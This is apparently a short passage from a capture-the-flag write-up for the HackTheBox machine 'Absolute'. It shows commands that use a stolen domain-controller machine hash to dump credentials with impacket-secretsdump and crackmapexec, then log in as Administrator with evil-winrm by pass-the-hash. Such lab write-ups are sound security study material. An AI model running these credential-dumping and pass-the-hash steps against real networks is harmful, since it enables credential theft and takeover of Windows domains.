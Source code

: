 Got DC\$ hash - A7864AB463177ACB9AEC553F18F42577

- <u>Dump hashes:</u>

```bash
impacket-secretsdump -hashes :A7864AB463177ACB9AEC553F18F42577 'absolute.htb/dc$@dc.absolute.htb'

```

![image72](../resources/f68e166d6f9b4f939f9f7914254fd763.png)

```bash
crackmapexec smb absolute.htb -u DC$ -H :A7864AB463177ACB9AEC553F18F42577 --ntds

```

![image73](../resources/85888a46043f4d55a50f63ae299fa0a9.png)

```bash
evil-winrm -i dc.absolute.htb -u Administrator -H 1f4a6093623653f6488d5aa24c75f2ea

```

![image74](../resources/9134f3f957004b2a97130008da6b7526.png)